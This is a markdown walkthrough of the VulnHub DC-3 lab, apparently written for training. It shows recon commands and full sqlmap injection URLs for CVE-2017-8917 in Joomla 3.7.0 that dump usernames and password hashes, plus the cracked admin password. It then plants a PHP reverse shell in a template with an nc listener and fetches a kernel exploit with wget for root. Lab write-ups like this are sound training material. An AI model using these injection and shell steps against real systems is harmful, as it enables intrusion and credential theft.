# DC-3 – VulnHub Machine

## 1. Host Discovery

Identify the target machine on the local network using `arp-scan`.

```bash
sudo arp-scan --localnet
```



## 2. Port Discovery

Identify open ports on the target machine using Nmap.

```bash
nmap -p- <target-ip>
```



## 3. Service Enumeration

Identify the services and their versions running on the discovered open ports.

```bash
nmap -sV -p <port-numbers> <target-ip>
```



## 4. Directory Enumeration

Discover hidden directories and files on the web server using Gobuster.

```bash
gobuster dir -u http://<target-ip>/ -w <path-to-wordlist>
```

**Wordlist used:** SecLists – `Discovery/Web-Content/common.txt`



## 5. Website Technology Identification

Use the Wappalyzer browser extension to identify the technologies used by the target website.



## 6. Investigating Website Technologies and Versions

Use JoomScan to investigate the Joomla installation, identify its version, and discover potential security issues.

```bash
joomscan --url http://<target-ip>/
```



## 7. Searching for Known Vulnerabilities

The Joomla installation was identified as:

```text
Joomla 3.7.0
```

This version is affected by a SQL injection vulnerability:

**CVE-2017-8917**



## 8. Exploit Database Research

Search for `CVE-2017-8917` in Exploit Database to understand the vulnerability and identify available exploitation methods.



## 9. Database Enumeration and SQL Injection

Use SQLmap to investigate the SQL injection vulnerability and enumerate the database.

### Enumerating Databases

```bash
sqlmap -u "http://<target-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

### Enumerating Tables

```bash
sqlmap -u "http://<target-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables
```

### Dumping the Users Table

Replace `<actual-users-table>` with the table name discovered during enumeration.

```bash
sqlmap -u "http://<target-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T "<actual-users-table>" --dump
```

### Retrieving Specific Columns

```bash
sqlmap -u "http://<target-ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T "<actual-users-table>" -C username,password --dump
```









## 10. Password Hash Cracking

Use Hashcat to attempt to crack the retrieved password hash.

```bash
hashcat -m <hash-mode> hash.txt <path-to-wordlist>
```

Select the appropriate hash mode based on the hash format.



## 11. Initial Access – Joomla Administrator Panel

Using the recovered credentials, access the Joomla administrator panel discovered during directory enumeration.

**Username:** `admin`

**Password:** `snoopy`





## 12. Obtaining a Reverse Shell

Investigate the available template-editing functionality in the Joomla administrator panel.

A PHP reverse shell can be generated using [Reverse Shell Generator](https://www.revshells.com/).



Identify an editable PHP template file and insert the reverse shell code.



Before triggering the modified template, start a Netcat listener on the attacking machine.

```bash
nc -lvnp 4444
```

Trigger the modified template to establish the reverse shell connection.



## 13. Post-Exploitation – Kernel Enumeration

After obtaining a shell as `www-data`, enumerate the operating system and kernel version.

```bash
uname -r
cat /etc/issue
```

These commands reveal the running kernel version and operating system information.



Research known vulnerabilities affecting the identified kernel version.



## 14. Investigating BPF Configuration

The identified kernel version makes CVE-2016-4557 a potential privilege-escalation candidate.

Before investigating the exploit, check the relevant kernel configuration.

```bash
grep -E 'CONFIG_BPF|CONFIG_BPF_SYSCALL' /boot/config-$(uname -r)
```

Also inspect whether unprivileged BPF is disabled.

```bash
cat /proc/sys/kernel/unprivileged_bpf_disabled
```

**Note:** These checks help establish whether the required BPF functionality is available. They do not independently confirm that the kernel is vulnerable. The exact kernel package version, security patches, and exploit prerequisites must also be verified.



## 15. BPF Privilege Escalation – CVE-2016-4557

**CVE-2016-4557 – eBPF Map File Descriptor Double Put**

The vulnerability involves incorrect file-reference handling in the BPF subsystem, potentially resulting in a use-after-free condition.

Refer to the exploit documentation for a detailed explanation of the vulnerability and exploitation process.

### Exploit Files

- [Download Exploit Archive](39772.zip)
- [View Exploit Notes](exploit.txt)

### Transferring Files to the Target

Start a simple HTTP server on the attacking machine from the directory containing the exploit archive.

```bash
python3 -m http.server 8888
```

Download the archive from the target machine.

```bash
wget http://<attacker-machine-ip>:8888/39772.zip
```

### Extracting and Preparing the Exploit

Extract the downloaded archive.

```bash
unzip 39772.zip
```

If the exploit contains TAR archives, extract them using:

```bash
tar -xvf exploit.tar
```

Inspect the compilation instructions and existing binaries before executing anything.

```bash
cat compile.sh
file doubleput hello suidhelper
```

A general GCC compilation example:

```bash
gcc source.c -o executable
```

**Note:** The actual compilation commands and dependencies depend on the exploit source code. Follow the instructions supplied with the exploit.



## 16. Root Access

After successfully exploiting the vulnerability, a root shell was obtained.



## 17. Final Flag

Locate and retrieve the final flag to complete the DC-3 machine.



## 18. Key Takeaways

- Learned host discovery and network enumeration using ARP scanning and Nmap.
- Practised service and directory enumeration.
- Identified Joomla technologies and investigated known vulnerabilities.
- Explored SQL injection and database enumeration using SQLmap.
- Performed password hash cracking.
- Obtained initial access through the Joomla administrator interface.
- Established a reverse shell through template modification.
- Investigated Linux kernel vulnerabilities and BPF functionality.
- Explored local privilege escalation and obtained root access.

---

**Lab:** DC-3 – VulnHub  
**Focus:** Network Enumeration, Joomla, SQL Injection, Reverse Shells, Linux Privilege Escalation
